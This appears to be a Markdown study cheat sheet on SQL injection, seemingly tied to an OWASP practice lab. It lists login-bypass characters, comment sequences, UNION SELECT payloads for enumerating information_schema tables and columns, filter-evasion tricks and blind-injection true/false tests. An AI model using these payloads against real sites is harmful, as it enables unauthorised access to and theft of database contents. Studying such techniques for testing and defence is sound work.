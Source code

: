 * Try to login using SQL statements or symbols (eg. **'** or **%27**)
* Comment the rest of the query using **#** , **%23** , **--** , **/*** , **//** 
* If you think there is some kind of client side filtering, use Burp Proxy
* To read database information:
  * **Order By _n_** - Iterate over **n** to find out the number of columns in table
  * **Union Select 1,2,3,...,n** - Allows you to check which columns are getting displayed by the site
  * **database()** - Name of the database
  * **user()** - User of the server
  * **version()** - OS version of the server
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables** - Name of all the tables in the SQL
  * **Union Select 1, table_name, null, null, 5 From information_schema.tables Where table_schema = "owasp10"** - Name of all the tables in owasp10 database
  * **Union Select 1, column_name, null, null, 5 From information_schema.columns Where table_name = "accounts"** - Name of all the columns in accounts table
  * If site doesnt iterate through all results from the query use **limit**:
    * **Union Select table_name,2 From information_schema.tables Limit 1,2** - Iterate through results 1 by 1.
* Use Burp Decoder to encode query to HEX (0x...)
* Use **+** instead of SPACE
* Use different cases to avoid filters
* In a Blind SQL Injection, try to send a true and false value to see how the page behaves
  * True - **and 1=1** or **order by 1**
  * False - ** and 1=0** or **order by 10000000**
